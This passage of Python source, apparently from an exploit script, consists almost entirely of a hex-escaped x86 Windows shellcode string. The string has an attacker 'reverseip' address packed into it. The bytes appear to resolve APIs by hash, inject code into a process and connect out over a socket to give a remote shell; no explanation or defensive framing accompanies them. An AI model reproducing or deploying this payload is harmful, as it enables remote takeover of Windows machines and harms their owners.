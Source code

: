 ```python
'\xFF\xFF\xE8\x9D\x03\x00\x00\x59\x59\x89\x85\x48\xFA\xFF\xFF\x68'+\
'\x83\x94\x7B\x10\xFF\xB5\x24\xFA\xFF\xFF\xE8\x85\x03\x00\x00\x59'+\
'\x59\x89\x85\x4C\xFA\xFF\xFF\x68\x49\x17\x55\xC0\xFF\xB5\x24\xFA'+\
'\xFF\xFF\xE8\x6D\x03\x00\x00\x59\x59\x89\x85\x50\xFA\xFF\xFF\x68'+\
'\xD9\xE5\x1A\x06\xFF\xB5\x24\xFA\xFF\xFF\xE8\x55\x03\x00\x00\x59'+\
'\x59\x89\x85\x54\xFA\xFF\xFF\x8D\x85\xC8\xFC\xFF\xFF\x50\xFF\x95'+\
'\x28\xFA\xFF\xFF\x89\x85\x1C\xFD\xFF\xFF\x83\xBD\x1C\xFD\xFF\xFF'+\
'\x00\x0F\x84\x39\x01\x00\x00\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D'+\
'\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4'+\
'\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x64'+\
'\xFA\xFF\xFF\x00\xEB\xDA\x83\xA5\xD4\xFA\xFF\xFF\x00\xEB\x0D\x8B'+\
'\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF\xFF\x83\xBD\xD4\xFA'+\
'\xFF\xFF\x10\x73\x10\x8B\x85\xD4\xFA\xFF\xFF\x80\xA4\x05\x20\xFD'+\
'\xFF\xFF\x00\xEB\xDA\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA'+\
'\xFF\xFF\x50\x6A\x00\x6A\x00\x6A\x04\x6A\x00\x6A\x00\x6A\x00\x6A'+\
'\x00\x8D\x85\x18\xFB\xFF\xFF\x50\xFF\x95\x34\xFA\xFF\xFF\xFF\xB5'+\
'\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\x68\xE8\x03\x00\x00\xFF'+\
'\x95\x54\xFA\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x40\xFA\xFF'+\
'\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D\x85\x30\xFD\xFF'+\
'\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x44\xFA\xFF\xFF\x6A\x40'+\
'\x68\x00\x10\x00\x00\xFF\x75\xFC\x6A\x00\xFF\xB5\x20\xFD\xFF\xFF'+\
'\xFF\x95\x48\xFA\xFF\xFF\x89\x85\x10\xFD\xFF\xFF\x6A\x00\xFF\x75'+\
'\xFC\xFF\xB5\xE4\xFA\xFF\xFF\xFF\xB5\x10\xFD\xFF\xFF\xFF\xB5\x20'+\
'\xFD\xFF\xFF\xFF\x95\x4C\xFA\xFF\xFF\x8B\x85\x10\xFD\xFF\xFF\x89'+\
'\x85\xE8\xFD\xFF\xFF\xC7\x85\x30\xFD\xFF\xFF\x01\x00\x01\x00\x8D'+\
'\x85\x30\xFD\xFF\xFF\x50\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x50\xFA'+\
'\xFF\xFF\xFF\xB5\x24\xFD\xFF\xFF\xFF\x95\x3C\xFA\xFF\xFF\xEB\x1E'+\
'\x6A\x00\x8D\x85\xE8\xFA\xFF\xFF\x50\x8D\x85\xF4\xFC\xFF\xFF\x50'+\
'\xFF\x95\x30\xFA\xFF\xFF\x6A\x01\xFF\x95\x38\xFA\xFF\xFF\x68\x70'+\
'\x17\x00\x00\xFF\x95\x54\xFA\xFF\xFF\x8D\x85\xD8\xFA\xFF\xFF\x50'+\
'\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xBC\xFA'+\
'\xFF\xFF\x8D\x85\x58\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF'+\
'\x95\x2C\xFA\xFF\xFF\x89\x85\xC0\xFA\xFF\xFF\x8D\x85\xE8\xFC\xFF'+\
'\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85'+\
'\xC4\xFA\xFF\xFF\x8D\x85\xA8\xFA\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF'+\
'\xFF\xFF\x95\x2C\xFA\xFF\xFF\x89\x85\xC8\xFA\xFF\xFF\x8D\x85\x14'+\
'\xFD\xFF\xFF\x50\xFF\xB5\x1C\xFD\xFF\xFF\xFF\x95\x2C\xFA\xFF\xFF'+\
'\x89\x85\xCC\xFA\xFF\xFF\x8D\x85\x38\xFB\xFF\xFF\x50\x68\x02\x02'+\
'\x00\x00\xFF\x95\xBC\xFA\xFF\xFF\x6A\x00\x6A\x00\x6A\x00\x6A\x06'+\
'\x6A\x01\x6A\x02\xFF\x95\xC0\xFA\xFF\xFF\x89\x85\xD4\xFC\xFF\xFF'+\
'\x66\xC7\x85\xD8\xFC\xFF\xFF\x02\x00\xFF\xB5\xD0\xFA\xFF\xFF\xFF'+\
'\x95\xCC\xFA\xFF\xFF\x66\x89\x85\xDA\xFC\xFF\xFF\xFF\xB5\xB4\xFA'+\
'\xFF\xFF\xFF\x95\xC8\xFA\xFF\xFF\x89\x85\xDC\xFC\xFF\xFF\x6A\x00'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x10\x8D\x85\xD8\xFC\xFF\xFF\x50\xFF'+\
'\xB5\xD4\xFC\xFF\xFF\xFF\x95\xC4\xFA\xFF\xFF\x83\xA5\xD4\xFA\xFF'+\
'\xFF\x00\xEB\x0D\x8B\x85\xD4\xFA\xFF\xFF\x40\x89\x85\xD4\xFA\xFF'+\
'\xFF\x83\xBD\xD4\xFA\xFF\xFF\x44\x73\x10\x8B\x85\xD4\xFA\xFF\xFF'+\
'\x80\xA4\x05\x64\xFA\xFF\xFF\x00\xEB\xDA\xC7\x85\x64\xFA\xFF\xFF'+\
'\x44\x00\x00\x00\xC7\x85\x90\xFA\xFF\xFF\x01\x01\x00\x00\x8B\x85'+\
'\xD4\xFC\xFF\xFF\x89\x85\xA4\xFA\xFF\xFF\x8B\x85\xA4\xFA\xFF\xFF'+\
'\x89\x85\xA0\xFA\xFF\xFF\x8B\x85\xA0\xFA\xFF\xFF\x89\x85\x9C\xFA'+\
'\xFF\xFF\x8D\x85\x20\xFD\xFF\xFF\x50\x8D\x85\x64\xFA\xFF\xFF\x50'+\
'\x6A\x00\x6A\x00\x6A\x00\x6A\x01\x6A\x00\x6A\x00\x8D\x85\xE8\xFA'+\
'\xFF\xFF\x50\x6A\x00\xFF\x95\x34\xFA\xFF\xFF\x6A\x01\xFF\x95\x38'+\
'\xFA\xFF\xFF\xE8\xBD\xFB\xFF\xFF'+struct.pack('16s',reverseip)+'\x5F\x5E\x5B\xC9\xC3\x64\xA1\x18'+\
'\x00\x00\x00\x8B\x40\x30\x33\xC9\x8B\x40\x0C\x8B\x40\x1C\x8B\x00'+\
'\x8B\x50\x20\x66\x83\x7A\x10\x2E\x74\x06\x41\x83\xF9\x02\x7C\xEE'+\
'\x8B\x40\x08\xC3\x55\x8B\xEC\x53\x56\x57\x8B\x7D\x08\x83\x65\x08'+\
'\x00\x8B\x47\x3C\x8B\x44\x38\x78\x03\xC7\x8B\x70\x20\x03\xF7\x83'+\
'\x78\x18\x00\x76\x2A\x8B\x0E\x03\xCF\x33\xDB\x8A\x11\x84\xD2\x74'+\
'\x0B\x6B\xDB\x21\x0F\xBE\xD2\x03\xDA\x41\xEB\xEF\x3B\x5D\x0C\x74'+\
'\x15\x83\xC6\x04\xFF\x45\x08\x8B\x4D\x08\x3B\x48\x18\x72\xD6\x33'+\
```